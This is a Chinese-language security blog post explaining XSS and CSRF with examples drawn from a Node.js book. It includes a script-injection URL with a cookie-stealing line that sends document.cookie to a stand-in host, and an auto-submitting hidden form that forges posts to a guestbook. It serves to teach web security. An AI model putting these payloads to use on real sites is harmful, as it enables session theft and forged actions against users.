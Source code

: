 title: web安全之攻击
date: 2016-08-02 17:09:15
tags:
- Web
- Security
---
> 以下知识主要来自`《深入浅出Node.js》`一书

### XSS攻击
+ 概念
  - 其全称是跨站脚本攻击（Cross Site Scripting）
  - 通常是由网站开发者决定哪些脚本可以执行在浏览器端，不过XSS攻击是利用了XSS漏洞，让别的脚本执行，它的主要形成原因多数是因为 用户的输入没有被转义，而被直接执行
<!-- more -->
+ 例子
  - 有个网站的前端脚本如下`$(#box).html(location.hash.replace('#', ''))`,它会将URL hash中的值设置到页面中，以实现某种逻辑；这里攻击者可以构造如下的URL`http://a.com/pathname#<script src="http://b.com/c.js"></script>`然后将这个网站发给某个已经登录了`http://a.com/pathname`的用户，此时会发生的情况是，a.com网站加载完成后，运行了`$(#box).html(location.hash.replace('#',''))`的逻辑，`<script src="http://b.com/c.js">`被解析，加载，运行；这里我们假设c.js这个文件的内容`location.href = "http://c.com/?" + document.cookie;`这样就会发生，用户的cookie被发送了`http://c.com`这个网站了,从而得到了用户cookie

### CSRF攻击
+ 概念
  - 其全称是跨站请求伪造(Cross-Site Request Forgery)
  - 服务端与客户端通过Cookie来标识和认证用户，通常而言，用户通过浏览器访问服务端的Session ID是无法被第三方知道的，但是CSRF的攻击者并不需要知道Session ID就能让用户中招
+ 例子
  - 某个网站有这样一个留言程序，提交留言的接口为`http://domain_a.com/guestbook`用户通过POST提交content字段就能成功留言，服务端会自动从Session数据中判断是谁提交的数据，补足username和updateAt两个字段后向数据库中定入数据，如下所示
  ```
  function (req, res) {
    var content = req.body.content || '';
    var username = req.session.username;
    var feedback = {
    username: username,
    content: content,
    updatedAt: Date.now()
    };
    db.save(feedback, function (err) {
    res.writeHead(200);
    res.end('Ok');
    });
  }
  ```
  - 正常情况下，谁提交的留言，就会在列表中显示谁的信息，如果某个攻击者发现了这里的接口存在CSRF漏洞，那么他就可以在另一个网站(http://domain_b.com/attack)上构造了一个表单提交，如下所示
  ```
 <form id="test" method="POST" action="http://domain_a.com/guestbook">
    <input type="hidden" name="content" value="vim是
上的编辑器" /> 
</form>
<script type="text/javascript">
  $(function () {
    $("#test").submit();
  });
</script>
  ```
  - 这种情况下，攻击者只要引诱某个**domain_a的登录用户**访问这个domain_b的网站，就会自己提交一个留言，由于在提交到domain_a的过程中（访问domain_a了，浏览器会自己携带上cookie的），浏览器会将domain_a的Cookie发送到服务器，尽管这个请求就是来自domain_b的，但是服务器并不知情，用户了不知情。
  - 关于csrf防御的可以参考 [链接](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/),使用Referer,token,自定义http字段都是相关的解决方案